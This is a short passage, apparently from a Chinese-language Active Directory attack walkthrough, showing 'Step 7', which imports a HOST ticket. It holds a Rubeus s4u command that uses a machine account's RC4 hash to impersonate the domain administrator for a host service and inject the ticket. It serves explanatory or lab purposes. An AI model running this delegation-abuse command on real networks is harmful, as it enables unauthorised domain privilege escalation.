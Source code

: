 [![](assets/1705982146-e9604bf3f75c2df6ff8b292a0455f35a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120224017-d44fe318-b7a1-1.png)  
Step 7：导入 HOST 票据

```plain
Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:host/win7-test /ptt
```
